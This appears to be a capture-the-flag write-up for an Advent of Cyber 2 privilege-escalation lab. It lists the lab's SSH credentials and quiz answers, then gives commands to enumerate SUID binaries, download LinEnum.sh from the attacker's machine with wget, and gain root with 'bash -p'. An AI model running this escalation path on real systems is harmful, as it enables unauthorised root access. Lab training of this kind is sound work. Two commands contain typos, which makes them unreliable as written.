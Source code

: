 # [Network] Privilege Escalation

IP: 10.10.128.128

Advent of Cyber 2:

Recap: Privilege Escalation again and cheatsheets (check them out!).

### What type of privilege escalation involves using a user account to execute commands as an administrator?
- `vertical`

### What is the name of the file that contains a list of users who are a part of the sudo group?
- `sudoers`

#### Use SSH to log in to the vulnerable machine like so: ssh cmnatic@10.10.128.128. Input the following password when prompted: `aoc2020`

### Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary. You may find uploading some of the enumeration scripts that were used during today's task to be useful.
- Tried `find / -perm -u=s 0type f 2>/dev/null` and search the functions in there with GTFOBins but no luck.
- Trying to upload `LinEnum.sh`.
- `python3 -m http.server 8080`
- Then on the instance machine you can do `wget http://<your_kali_machine_ip>:8080/LinEnum.sh`
- `chmod+x LinEnum.sh`; `./LinEnum.sh`
- Again summary of runnable command.
- This time go to GTFOBins to find `bash`
- Use `bash -p`! Voila, do `whoami`, now you're root!
- `cat /root/flag.txt`


